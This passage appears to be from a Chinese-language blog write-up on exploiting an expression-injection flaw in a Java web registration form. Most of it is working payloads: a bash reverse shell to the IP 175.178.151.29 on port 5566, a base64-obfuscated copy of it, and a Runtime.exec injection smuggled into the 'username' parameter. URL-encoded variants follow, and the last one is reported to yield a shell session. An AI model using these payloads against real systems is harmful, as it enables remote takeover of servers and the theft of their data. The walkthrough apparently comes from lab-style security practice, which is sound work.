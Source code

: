 ```plain
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134949017-71458415.png)

```plain
在这里有可能是执行不成功，也有可能是执行后没有回显。那么可以用反弹命令来测试一下是否能成功。在java中，反弹命令都需要用到base64编码来进行测试。

反弹命令：bash -i >& /dev/tcp/175.178.151.29/5566 0>&1
经过base64编码：YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=
组合：bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=}|{base64,-d}|{bash,-i}
最终payload：username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=}|{base64,-d}|{bash,-i}")]=&password=&repeatedPassword=
页面返回正常，但是还是没有反弹成功。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134948635-1920561327.png)

```plain
发现数据包中：Content-Type: application/x-www-form-urlencoded
这个可能是需要编码的，把整一个进行url编码来进行传递。
payload：username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=}|{base64,-d}|{bash,-i}")]=&password=&repeatedPassword=
URL编码后：%75%73%65%72%6E%61%6D%65%5B%23%74%68%69%73%2E%67%65%74%43%6C%61%73%73%28%29%2E%66%6F%72%4E%61%6D%65%28%22%6A%61%76%61%2E%6C%61%6E%67%2E%52%75%6E%74%69%6D%65%22%29%2E%67%65%74%52%75%6E%74%69%6D%65%28%29%2E%65%78%65%63%28%22%62%61%73%68%20%2D%63%20%7B%65%63%68%6F%2C%59%6D%46%7A%61%43%41%74%61%53%41%2B%4A%69%41%76%5A%47%56%32%4C%33%52%6A%63%43%38%78%4E%7A%55%75%4D%54%63%34%4C%6A%45%31%4D%53%34%79%4F%53%38%31%4E%54%59%32%49%44%41%2B%4A%6A%45%3D%7D%7C%7B%62%61%73%65%36%34%2C%2D%64%7D%7C%7B%62%61%73%68%2C%2D%69%7D%22%29%5D%3D%26%70%61%73%73%77%6F%72%64%3D%26%72%65%70%65%61%74%65%64%50%61%73%73%77%6F%72%64%3D
没有任何回显。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134948771-2134611938.png)

```plain
然后把这个命令进行单独编码，看看可不可以。
反弹命令：bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=}|{base64,-d}|{bash,-i}
进行URL编码：%62%61%73%68%20%2D%63%20%7B%65%63%68%6F%2C%59%6D%46%7A%61%43%41%74%61%53%41%2B%4A%69%41%76%5A%47%56%32%4C%33%52%6A%63%43%38%78%4E%7A%55%75%4D%54%63%34%4C%6A%45%31%4D%53%34%79%4F%53%38%31%4E%54%59%32%49%44%41%2B%4A%6A%45%3D%7D%7C%7B%62%61%73%65%36%34%2C%2D%64%7D%7C%7B%62%61%73%68%2C%2D%69%7D
组合：username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("%62%61%73%68%20%2D%63%20%7B%65%63%68%6F%2C%59%6D%46%7A%61%43%41%74%61%53%41%2B%4A%69%41%76%5A%47%56%32%4C%33%52%6A%63%43%38%78%4E%7A%55%75%4D%54%63%34%4C%6A%45%31%4D%53%34%79%4F%53%38%31%4E%54%59%32%49%44%41%2B%4A%6A%45%3D%7D%7C%7B%62%61%73%65%36%34%2C%2D%64%7D%7C%7B%62%61%73%68%2C%2D%69%7D")]=&password=&repeatedPassword=
这样就可以接收到会话。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134949640-2061524184.png)
